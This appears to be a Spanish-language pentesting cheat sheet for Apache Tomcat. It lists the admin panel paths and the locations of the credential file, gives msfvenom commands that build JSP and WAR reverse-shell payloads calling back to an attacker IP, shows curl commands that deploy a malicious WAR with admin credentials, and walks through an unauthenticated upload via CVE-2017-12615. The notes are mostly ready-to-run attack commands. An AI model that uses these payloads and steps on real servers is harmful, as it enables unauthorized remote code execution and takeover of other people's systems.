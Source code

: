 # Tomcat 

Tags: #Tomcat #Windows

## Ruta en la web

```bash 
/manager/html                # Ruta tipica que contiene un panel de autenticacion en donde se encuentra el panel de admin en Tomcat 
/host-manager/html           # Ruta alternativa 

/manager/status/             # Muestra la version de Tomcat         
```

## Ruta en consola

```bash 
/etc/tomcat9/tomcat-users.xml              # Archivo que contiene usuarios y sus passwd
/usr/share/tomcat9/etc/tomcat-users.xml    # Ruta alternativa
```

## Crear una aplicación para subirla desde el panel Tomcat  

```bash 
# En el panel de manager, encontramos una opción en donde podemos subir un archivo .war, por lo que hacemos lo siguiente:

❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war -o shell.war # Creamos nuestro archivo malicioso .war 

	# p = Payload
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port 'Atacante'
	# f = Formato war
	# o = Exportar como 'shell.war'
```

## Subir una aplicación desde la consola con credenciales validas de 'admin'

```bash 
❯ curl -s -u 'username:passwd' -X GET "http://IP/manager/text/list"    # Listar aplicaciones existentes en Tomcat si tenemos credenciales validas 

- [ ] ❯ curl -s -u 'username:passwd' "http://IP/manager/text/deploy?path=/shell" --upload-file shell.war  # Desplegar la aplicacion creada anteriormente 
```

## Subir una aplicación sin credenciales CVE-2017-12615

```bash 
# Utilizando el Tomcat < 9.0.1 (beta) < 8.5.23 

1. Crear el archivo malicioso con 'Msfvenom'

❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f raw -o shell.jsp # Creamos nuestro archivo malicioso .jsp
	
2. Capturar con Burpsuite la peticion del puerto 8080
3. Colocar en la cabecera 'POST /shell.jsp' para cargar el archivo antes creado en el Tomcat
4. Mandar la peticion 

Nota: Si al momento de cargar el archivo por la web para obtener la revershell nos muestra el contenido del archivo. Agregar ese contenido al 'Body' de nuestra peticion en Burpsuite y al momento de volverlo a mandar, ahora si nos dara la Revershell. 
```